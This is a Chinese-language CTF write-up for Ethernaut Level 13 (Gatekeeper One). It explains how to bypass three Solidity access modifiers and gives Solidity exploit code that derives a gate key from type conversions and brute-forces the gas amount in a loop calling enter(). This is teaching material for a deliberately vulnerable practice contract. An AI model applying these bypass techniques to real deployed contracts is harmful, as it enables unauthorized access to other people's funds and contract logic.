

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 13 - Gate Keeper One</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 13 - Gate Keeper One](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
    - [Modifier 1](#Modifier1)
    - [Modifier 2](#Modifier2)
    - [Modifier 3](#Modifier3)
- [解答](#解答)
- [要点](#要点)
- [参考](#参考)

## 目标

目标是通过三个 modifier 的检测


## 漏洞

“enter(bytes8 _gateKey)”函数中,有3个修饰符，我们需要通过这三个修饰符，才能通过关卡。让我们一个一个地看看。

### Modifier1

这里没有什么难的的，我们在之前的Telephone关卡中遇到过。我们只需要从合约中调用`enter()`函数，那么`tx.origin`将是我们自己的账户。`msg.sender`则是合约。

```javascript
 modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

### Modifier3

```javascript
 modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

`_gateKey`是`bytes8`类型，它是长度为8的固定大小字节数组。这里以_gateKey是0x12345678deadbeef为例说明:
1.uint32(uint64(_gateKey))转换后会取低位，所以变成0xdeadbeef，uint16(uint64(_gateKey))同理会变成0xbeef，uint16和uint32在比较的时候，较小的类型uint16会在左边填充0，也就是会变成0x0000beef和0xdeadbeef做比较，因此想通过第一个require只需要找一个形为0x????????0000????这种形式的值即可，其中?是任取值。
2.要求双方不相等，只需高4个字节中任有一个bit不为0即可
3.通过前面可知，uint32(uint64(_gateKey))应该是类似0x0000beef这种形式，所以只需要让最低的2个byte和tx.origin地址最低的2个byte相同即可，也就是，key的最低2个字节设置为合约地址的低2个字节。这里tx.origin就是你的的账户地址

```javascript
    bytes8 gateKey;
    uint16 origin = uint16(uint160(msg.sender)); //合约地址的低2个字节
    uint64 _gateKey = uint64(origin);  //0000????这种形式的值
    gateKey = bytes8(_gateKey | uint64(0x1000000000000000)); //0x1???????0000????
```

### Modifier2

```javascript
 modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```
这个修饰符要求，我们必须确保`gasleft()`是8191的倍数。你可以在remix上debug看一下，这里我们直接以暴力的循环方式，得到正确数量的gas，我们可以编写一个快速测试来找出它:

```javascript
    for (uint256 i = 0; i < 8191; i++) {
        try instance.enter{gas: 8191 * 10 + i}(gateKey) {
            //<----268
            console.log(">>>>>>>>>>>>>>>>gas:", i);
            return;
        } catch {}
    }
```

我测试得到的数量为: `268`.

## 解答

解决了所有障碍后，直接调用 `enter()` 函数就可以了.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

function attackwithoutgas() public {
    bytes8 gateKey;
    uint16 origin = uint16(uint160(msg.sender));
    uint64 _gateKey = uint64(origin);
    gateKey = bytes8(_gateKey | uint64(0x1000000000000000));
    for (uint256 i = 0; i < 8191; i++) {
        try instance.enter{gas: 8191 * 10 + i}(gateKey) {
            //<----268
            console.log(">>>>>>>>>>>>>>>>gas:", i);
            return;
        } catch {}
    }
    revert("No gas match found!");
}
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
 forge test --match-contract  GatekeeperOneTest -vvvvv
```

## 要点

- Solidity中的类型转换
- 为什么 `gasleft()` 不能作为随机源

## 参考
- solidity conversions： https://www.tutorialspoint.com/solidity/solidity_conversions.htm

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
